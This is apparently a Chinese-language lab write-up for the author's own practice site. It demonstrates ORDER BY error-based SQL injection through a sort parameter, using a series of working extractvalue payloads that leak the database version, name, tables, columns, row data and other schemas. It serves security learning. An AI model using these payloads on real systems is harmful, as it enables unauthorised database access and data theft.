

# 自建靶场-报错注入—课程信息中心

#### 靶场只有一个表格，输入点只有   ?sort=   变量用于排序

```
http://8.148.75.207:321/index.php?sort=course_name   课程名称
http://8.148.75.207:321/index.php?sort=teacher       授课讲师
http://8.148.75.207:321/index.php?sort=hours         总课时
http://8.148.75.207:321/index.php?sort=category      课程类别
```

猜测后端查询语句大概率是

```
select "course_name","teacher","hours","category" from <表名> 
order by <sort的传参>  即是注入点
```




这类场景在 **SQL 注入分类** 里叫做 **基于 `ORDER BY` 的注入（order by injection）**。它的特征是：

- 参数只能进入 `ORDER BY` 位置，无法直接拼接到 `WHERE`、`SELECT` 里。
- 因此 **不能通过传统的 `' OR 1=1 --` 这种方式注入数据**。
- 但可以通过构造特殊的输入，使 `ORDER BY` 产生语法错误、类型错误、子查询，进而泄露信息。

------

### 

#### （1）**确认注入点是否可控**

- 输入不存在的字段名

  ```
  ?sort=abc
  ```

  

  报错（unknown column），再次证明了sort是是直接拼接到 `ORDER BY`后面的。

- 输入数字测试：

  ```
  ?sort=1
  ?sort=2
  ```

  返回的排序顺序改变，说明支持 **字段序号**。

  


#### （2）尝试报错注入获取版本

```http
?sort=extractvalue(1,concat(0x7e,(version()),0x7e))
```

- 后端会报错并显示版本信息（因为 `$conn->error` 会输出）。


爆破注入可行，尝试进一步获取信息

------

## **2️⃣ 取当前数据库名**

```http
?sort=extractvalue(1,concat(0x7e,(database()),0x7e))
```

- 数据库名：`wodeadmin` 
- 

------

## **3️⃣ 获取所有表名（逐张表）**

- 尝试获取第 1 张表：

```http
?sort=extractvalue(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),0x7e))
```


> [!NOTE]
>
> ### 当前表的名字叫 courses


- 尝试获取第 2 张表：

```http
?sort=extractvalue(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1),0x7e))
```

没有返回值了，当前数据库只有一张表

------

## **4️⃣ 获取某张表的列名（逐列）**

目标表是 `courses`：

- 第 N 列：

```http
?sort=extractvalue(1,concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='courses' LIMIT N-1,1),0x7e))
```

> [!NOTE]
>
> 列名最开始的时候变量***sort***已经暴露，可以验证一下


------

## **5️⃣ 获取表中数据**

- 用 `concat()` 组合多列,

```http
?sort=extractvalue(1,concat(0x7e,(SELECT concat(course_name,0x3a,teacher,0x3a,hours,0x3a,category,0x3a) FROM courses LIMIT 0,1),0x7e))
```

- `0x3a` 是 `:` 分隔符。

- 

  过长了，需要单独查一下   category

------


##  查询其他数据库

- **爆所有数据库名**：

```sql
SELECT schema_name FROM information_schema.schemata;
```

结合报错注入：

```http
?sort=extractvalue(1,concat(0x7e,(SELECT CAST(schema_name AS CHAR) FROM information_schema.schemata LIMIT 0,1),0x7e))
```


- #### 依次递增 `LIMIT` 索引，可以枚举所有数据库。

- #### 看当前用户的权限，权限够大，就可以爆其他数据库

- #### 由于是本机，后续不做演示

### 总结注入特征

| 属性                  | 分析                       |
| --------------------- | -------------------------- |
| 注入参数              | `sort`                     |
| 注入位置              | `ORDER BY` 子句            |
| 注入方式              | 直接拼接，无过滤           |
| 可利用手段            | 报错注入、盲注、子查询排序 |
| 数据库泄露难度        | 中等，需利用排序副作用     |
| 无法直接写入/修改数据 | 是                         |

------

💡 **核心结论**：

- 注入点在 `?sort=`，只影响 `ORDER BY`。
- 可以通过函数或子查询获取信息（version(), database(), table_name 等）。
- 如果开启报错回显，直接报错注入最简单；如果没有报错，走盲注。
- 不适合直接读取列数据，需要逐步爆。